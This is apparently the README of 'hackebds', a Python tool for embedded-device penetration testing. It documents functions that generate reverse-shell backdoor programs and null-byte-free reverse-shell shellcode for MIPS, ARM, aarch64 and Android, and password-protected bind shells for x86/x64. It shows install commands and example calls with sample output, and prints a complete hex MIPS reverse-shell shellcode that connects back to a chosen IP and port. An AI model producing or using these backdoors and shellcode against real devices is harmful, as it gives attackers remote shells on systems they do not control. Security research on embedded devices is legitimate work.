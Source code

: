 # introduction

## foreword

>In the process of penetration and vulnerability mining of embedded devices, many problems have been encountered. One is that some devices do not have telnetd or ssh services to obtain an interactive shell, and the other is that memory corruption vulnerabilities such as stack overflow are usually Null bytes are truncated, so it is more troublesome to construct reverse_shellcode, so this tool was developed to exploit the vulnerability. This tool is developed based on the PWN module and currently uses the python2 language，**Has been updated to python3**

## fuction

This tool is embedded in the security test of the device. There are two main functions:

1.  Generate **backdoor programs** of various architectures. The backdoor program is packaged in shellless pure shellcode and is smal in size.**Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

2.  Generate **reverse_shell shellcode** of various architectures during the exploit process, and no null bytes, which facilitates the exploitation of memory corruption vulnerabilities on embedded devices. **Armv5, Armv7, Armv8, mipsel, mips are now supported, and they are still being updated**

3.  Fixed some bugs that the reverse_shellcode and reverse_backdoor **ports were selected too big**, and **added the function of generating bindshell with specified ports and passwords under x86 and x64**，**and beautified the generation process****（This feature will be updated to various architectures）**
Add support armvelv7_bind_shell(2022.10.27)

## install (1)  Highly recommended！！Because the source code compilation may not be updated in time，Please install the latest

```
pip install hackebds
pip3 install -U hackebds
```
#### Instructions for use

When importing this module will import the pwn module

Please install the corresponding binutils environment before use
expample:
```
apt search binutils | grep arm（You can replace it here）
apt install binutils-arm-linux-gnueabi/hirsute
```
1. Generate backdoor programs of various architectures, encapsulate pure shellcode, and successfully connect to the shell

```
>>> from hackebds import *
>>> mipsel_backdoor(reverse_ip,reverse_port)
>>> mips_backdoor(reverse_ip,reverse_port)
>>> aarch64_backdoor(reverse_ip,reverse_port)
>>> armelv5_backdoor(reverse_ip,reverse_port)
>>> armelv7_backdoor(reverse_ip,reverse_port)
>>> armebv5_backdoor(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_backdoor(reverse_ip,reverse_port)
>>> mips64el_backdoor(reverse_ip,reverse_port)
>>> x86_bind_shell(listen_port, passwd)
>>> x64_bind_shell(listen_port, passwd)
>>> armelv7_bind_shell(listen_port, passwd)
```

（Note that the maximum password length is 4 characters for x86（32bits） and 8 characters for x64（64bits））
```
>>> mipsel_backdoor("127.0.0.1",5566)
[+] reverse_ip is: 127.0.0.1
[+] reverse_port is: 5566
[*] waiting 3s
[+] mipsel_backdoor is ok in current path ./
>>>
```

![image-20221026181947194](https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20221026181947194.png)

```
>>> from hackebds import *
>>> x64_bind_shell(13000,"1235")
[+] bind port is set to 13000
[+] passwd is set to '1235'
[*] waiting 3s
[+] x64_bind_shell is ok in current path ./
```

![image-20221026182024685](https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/uPic/image-20221026182024685.png)

![image-20221028143802937](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png)

2. Generates the use-back shellcode (no free) null bytes corresponding to various architectures

```
>>> from hackebds import *
>>> mipsel_reverse_sl(reverse_ip,reverse_port)
>>> mips_reverse_sl(reverse_ip,reverse_port)
>>> aarch64_reverse_sl(reverse_ip,reverse_port)
>>> armelv5_reverse_sl(reverse_ip,reverse_port)
>>> armelv7_reverse_sl(reverse_ip,reverse_port)
>>> armebv5_reverse_sl(reverse_ip,reverse_port)
>>> armebv7_backdoor(reverse_ip,reverse_port)
>>> mips64_reverse_sl(reverse_ip,reverse_port)
>>> mips64el_reverse_sl(reverse_ip,reverse_port)
>>> android_aarch64_backdoor(reverse_ip,reverse_port)
```

example:

```
>>> from hackebds import *
>>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
[+] No NULL byte shellcode for hex(len is 264):
\xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01
```

## chips and architectures

Tests can leverage chips and architectures

Mips:
MIPS 74kc V4.12 big endian
MIPS 24kc V5.0  little endian

Armv7:
Allwinner(全志)V3s

Armv8:
Qualcomm Snapdragon 660

## updating

 2022.4.19 Added support for aarch64 null-byte reverse_shellcode

 2022.4.30 Reduced amount of code using functions and support python3

 2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and mipsel_reverse_sl were not enabled, added mips64_backdoor, mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl generation

 2022.5.21 0.0.9 version changed the generation method of armel V5 backdoor and added the specified generation of riscv-v64 backdoor

 2022.6.27 0.1.0 Added Android backdoor generation

 2022.10.26 0.1.5 Fixed some problems and added some automatic generation functions of bindshell specified port passwords

 2022.10.27 0.1.6 Add support armv7el_bind_shell(2022.10.27)


## One-click build environment

To be added



